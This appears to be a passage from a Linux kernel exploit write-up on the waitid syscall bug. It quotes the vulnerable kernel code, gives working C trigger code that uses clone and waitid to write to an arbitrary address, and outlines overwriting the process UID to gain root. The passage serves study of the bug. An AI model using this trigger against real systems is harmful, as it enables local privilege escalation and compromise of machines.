 ### Arbitrary write
Let's take another look on the `waitid` code:
```c
	user_access_begin();
	unsafe_put_user(signo, &infop->si_signo, Efault);
	unsafe_put_user(0, &infop->si_errno, Efault);
	unsafe_put_user(info.cause, &infop->si_code, Efault);
	unsafe_put_user(info.pid, &infop->si_pid, Efault);
	unsafe_put_user(info.uid, &infop->si_uid, Efault);
	unsafe_put_user(info.status, &infop->si_status, Efault);
	user_access_end();
```
As you already guessed, the absence of `access_ok()` leads to an _arbitrary write everywhere_ in memory because `infop` pointer is completly controlled by the attacker. 

### Trigger the bug
It's really easy to reach the vulnerable path and we can create a _trigger_ with this simply code:
```c
int thread_ready;
int die_thread(void *arg){
    thread_ready=1;
    syscall(__NR_sched_yield);
    return 0;
}
void *stack;
int trigger_bug(uint64_t where, int what){
  printf("[0] Trying to overwrite 0x%016lx\r", where);
  //int pid = fork(); // It is also possible to use fork syscall
  thread_ready = 0; 
  int pid = clone(die_thread, stack, CLONE_VM | CLONE_FS|CLONE_FILES|CLONE_SYSVSEM | SIGCHLD, NULL);
  int err;
  while(thread_ready == 0) {syscall(__NR_sched_yield);} // We should wait the thread
  err = syscall(__NR_waitid, P_PID, pid, where, WEXITED, NULL);   
  return err;
}
```
This simply code will trigger the vulnerability and write in the memory pointed by **where** address.

We can use _gdb_ if we want to check this trigger. For example, we can select an _arbitrary_ address and use the `trigger_bug` function to ovewrite it.

## Exploitation
This vulnerbility can be exploited in various way but I prefer a very simple approch.

Remember that we can write everywhere we want but the data written are partially controllee. We can overwrite an address with **0**.

The basic idea is to overwrite the _UID_ of our process and become _root_ but we first need to understand what are credentials in Linux.
